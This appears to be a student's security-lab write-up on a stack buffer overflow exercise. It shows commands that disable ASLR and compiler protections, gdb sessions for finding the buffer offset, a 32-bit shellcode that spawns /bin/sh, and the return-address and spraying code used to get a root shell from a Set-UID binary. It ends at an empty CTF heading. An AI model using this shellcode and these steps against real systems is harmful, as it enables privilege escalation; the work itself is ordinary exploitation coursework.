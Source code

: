 # Trabalho realizado na Semana #5

>We firstly turned off OS protections with the following code:
>```
>$ sudo sysctl -w kernel.randomize_va_space=0
>$ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1

>We ran the following program:
>```
>char *name[2];
>name[0] = "/bin/sh";
>name[1] = NULL;
>execve(name[0], name, NULL);
>```
>Then, we did the same with the 32 and 64 bits ones.
>
>In all cases, a shell was open in the same directory where the program was executed.

## Task 2

>By studying the code in the stack.c program, we realized that `strcopy` does not verify `str` size (517 bytes), which is copied to the array (100 bytes). Therefore, a buffer overflow occurs.
>
>We changed the program owner to `root` and activated `Set-UID` and deactived StackGuard and protections against code execution called by the stack.
>```
>$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
>$ sudo chown root stack
>$ sudo chmod 4755 stack
>```

## Task 3

>To exploit the vulnerability, we created an empty `badfile` and executed the vulnerable code in debug mode, so we could figure out the `bof()` function's return address compared to the start of the buffer.
>
>To that end, we used `gbd` and used a breakpoint in the `bof()` function.
>```
>$ touch badfile
>$ gdb stack-L1-dbg
>gdb-peda$ b bof 
>Breakpoint 1 at 0x12ad: file stack.c, line 16.
>gdb-peda$ run 
>...
>Breakpoint 1, bof (str=0xffffcf43 "V\004" as stack.c:16)
>16 {
>gdb-peda$ next
>...
>gdb-peda$ p $ebp 
>$1 = (void *) 0xffffcb18
>gdb-peda$ p &buffer 
>$2 = (char (*)[100]) 0xffffcaac
>gdb-peda$ quit
>```
>
>In the given python program, we made the following changes:
>
>The `shellcode` variable was changed to the 32-bits that executes the shell.
>```
>shellcode= (
> "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
> "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
> "\xd2\x31\xc0\xb0\x0b\xcd\x80"
>).encode('latin-1')
>```
>
>The `start` variable, so that the shellcode would go to the end of the array.
>```
>start = 517-len(shellcode)  
>```
>
>Calculated the new return address.
>```
>ret = 0xffffcb18 + start 
>```
>
>With the 2 obtained addresses, we calculated the return address based on the start of the array (offset)
>```
>offset = 0xffffcb18 - 0xffffcaac + 4 
>```
>
>Executing this program generated a `badfile` file.
>
>Finally, we executed the program that creates the buffer overflow and boots a shell with root permissions.

## Task 4

>To exploit the vulnerability, we created an empty `badfile` and executed the vulnerable code in debug mode, so we could figure out the `bof()` function's return address compared to the start of the buffer.
>
>To that end, we used `gbd` and used a breakpoint in the `bof()` function.
>```
>$ touch badfile
>$ gdb stack-L2-dbg
>gdb-peda$ b bof 
>Breakpoint 1 at 0x12ad: file stack.c, line 16.
>gdb-peda$ run 
>...
>Breakpoint 1, bof(...)
>...
>gdb-peda$ next
>...
>gdb-peda$ p $ebp 
>$1 = (void *) 0xffffcb18
>gdb-peda$ quit
>```
>
>In the given python program, we made the following changes:
>
>The `shellcode` and the `start` variables were not changed from Task 3.
>
>Because the buffer size range is 100 to 200, we added 200 instead of the `start` variable so we "spray" the first 200 bytes of the buffer with Return Addresses to make sure we hit the right one. This technique is known as *spraying*.
>
>```
>ret = 0xffffcb18 + 200
>```
>
>We used the same calculation from Task 3 for the `offset` variable.
>```
>offset = 112 
>```
>
>Instead of putting the return address in the [112:116] memory slot, we put the return address in every memory slot from 112 to 212, because of the 100 to 200 buffer size range.
>
>```
>for i in range(offset, offset + 100, 4)
>   content[i:i+L] = (ret).to_bytes(L,byteorder='little')
>```
>Executing this program generated a `badfile` file.
>
>Finally, we executed the program that creates the buffer overflow and boots a shell with root permissions.

##CTF
